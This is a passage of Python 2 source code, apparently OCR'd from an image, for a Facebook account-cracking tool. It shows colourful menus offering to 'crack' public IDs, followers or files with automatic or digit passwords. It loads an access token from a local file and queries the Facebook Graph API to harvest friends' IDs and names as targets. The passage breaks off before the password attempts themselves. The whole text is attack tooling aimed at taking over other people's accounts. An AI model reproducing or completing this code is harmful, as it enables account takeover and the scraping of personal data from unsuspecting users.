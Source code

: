     print("")
    print("\033[92;1m  [1] CRACK WITH AUTO PASS")
    print("\033[93;1m  [2] CRACK WITH DIGIT PASS")
    print('\033[91;1m  [0] BACK')
    print("")
    menu_option()
    
def menu_option():
	select = raw_input("\033[92;1m  CHOOSE : ")
	if select =="1":
		crack1()
	elif select =="2":
		crack()
	elif select =="0":
		main()
	else:
		print("")
		print("\t\033[91;1m     SELECT VALID OPTION")
		print("")
		menu_option()

def crack1():
	global token
	os.system("clear")
	try:
		token = open("ubaid_token.txt","r").read()
	except IOError:
		print("")
		print("\t\033[91;1m  TOKEN NOT FOUND ")
		time.sleep(1)
		fb_token()
	os.system("clear")
	logo()
	print("")
	print("\t\033[93;1m CRACK WITH AUTO PASS")
	print("")
	print("\033[94;1m  [1] CRACK PUBLIC ID")
	print("\033[93;1m  [2] CRACK FOLLOWERS")
	print("\033[92;1m  [3] CRACK FILE")
	print("")
	crack_select1()
	
def crack_select1():
	select = raw_input("\033[92;1m  CHOOSE : ")
	id=[]
	oks=[]
	cps=[]
	if select =="1":
		os.system("clear")
		logo()
		print("")
		print("\t\033[92;1m MULTI PUBLIC ID COINING ")
		print("")
		try:
			id_limit = int(raw_input("\033[93;1m  ENTER LIMIT (\033[91;1m5 MAX\033[93;1m): \033[92;1m"))
			print("")
		except:id_limit=1
		for t in range(id_limit):
			t +=1
			idt = raw_input("\033[93;1m  INPUT PUBLIC ID (\033[92;1m%s\033[93;1m) : \033[92;1m"%(t))
			try:
				for i in requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token).json()["data"]:
					uid = i["id"].encode('utf-8')
					na = i["name"].encode('utf-8')